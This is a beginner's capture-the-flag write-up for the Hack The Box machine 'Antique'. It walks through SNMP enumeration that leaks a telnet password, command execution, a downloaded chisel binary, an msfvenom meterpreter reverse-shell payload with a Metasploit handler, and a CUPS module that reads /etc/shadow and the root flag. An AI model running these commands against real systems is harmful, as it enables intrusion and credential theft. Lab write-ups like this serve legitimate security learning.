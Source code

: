 # Antique

This is my write-up for the machine **Antique** located at: [https://app.hackthebox.com/machines/Antique](https://app.hackthebox.com/machines/Antique).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

From the tags, I am able to notice that this machine is about printer exploitation on Linux:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1).png>)

A basic nmap scan shows that only telnet is online:

![](<../../.gitbook/assets/image (331) (1) (1).png>)

Trying to telnet into the system, it asks for a password:

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1).png>)

I also had a deeper nmap scan running: `nmap -A -T4 -p- 10.10.11.107 -oN antique.nmap`

```
// SomeStarting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 16:13 EST
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
23/tcp    open     telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
530/tcp   filtered courier
37918/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=12/21%Time=61C2455F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 626.36 seconds

```

This nmap scan came back with pretty much the same information. I then viewed the walk-through to see where I had messed up. I learned about a tool called **snmpwalk**. In the walk-through, the author runs `snmpwalk -v 2c -c public 10.10.11.107`, which gets the following output:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1).png>)

I had actually had found the password for telnet on my own, but I was unable to decode it:

![](<../../.gitbook/assets/image (333) (1) (1) (1).png>)

I use **snmpget**, while the walk-through used **snmpwalk**. In the walk-through they used **binascii** (python import) in order to decode the bytes. I wanted to find a solution that was a bit more basic. I ended up using [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) to convert the bytes from hex to ascii:

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1).png>)

The password seems to be: **P@ssw0rd@123!!123** I was in!

![](<../../.gitbook/assets/image (323) (1).png>)

I then noticed the walk-through mentioned to run `exec id`. I then tried playing around with linux commands, and ended up finding the user.txt file:

![](<../../.gitbook/assets/image (325).png>)

I noticed the write-up use python for the reverse shell. I then used [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to see if I can use one of their python commands. Once I changed their python command from **python** to **python3**, it worked:

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1).png>)

I viewed the walk-through again to see what I missed. The walk-through author runs the netstat command to see what connections are there:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1).png>)

They then go on to say that we should use **chisel** to connect to the port. I ran into an issue here where I was unable to download a GitHub repository onto the machine itself. I then realize that you make the binary locally and then upload it to the server. I uploaded the file to the machine by running `python3 -m http.server` on the folder where chisel was downloaded. I was then able to upload it by running `wget http://10.10.14.10:8000/chisel` on the remote machine. When I uploaded the file, I was unable to run it due to some dependency error in terms of version of libc:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1).png>)

&#x20;I then followed [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/) to see what I missed and what I could have done instead. They run `wget localhost:631`, which makes a file called **index.html** in the folder you are in. There, you can see that CUPS is mentioned:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1).png>)

When we search for cups on metasploit we get the following:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1).png>)

We first make a shell file to upload to the server. To do this, the walk-through mentioned previously mentions `msfvenom -p linux/x64/meterpreter/reverse`_`tcp LHOST=<`_`YOUR-IP> LPORT=1337 --format elf > shell`. This will make the **shell** file in your directory. To move it to the remote machine, you can use the python http.server command mentioned previously. Before I ran the shell executable, I ran the following commands in Metasploit (based off of [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/)):

```
use exploit/multi/handler
set lhost <YOUR_IP>
set lport 1337
set payload linux/x64/meterpreter/reverse_tcp 
run
```

After I ran the **run** command, I then switched to the remote machine and ran the shell executable (run `chmod +x shell` to make it executable). This gave me a connection in Metasploit:

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1).png>)

I then ran the following commands to look for the cups post exploitation program:

![](<../../.gitbook/assets/image (326).png>)

I then hit run and got an output:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

Opening that file shows the output of /etc/shadow:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1).png>)

Since we want to get the output of /root/root.txt, I changed my option in metasploit to that:

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1).png>)

Reading that file got me the root flag:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1).png>)
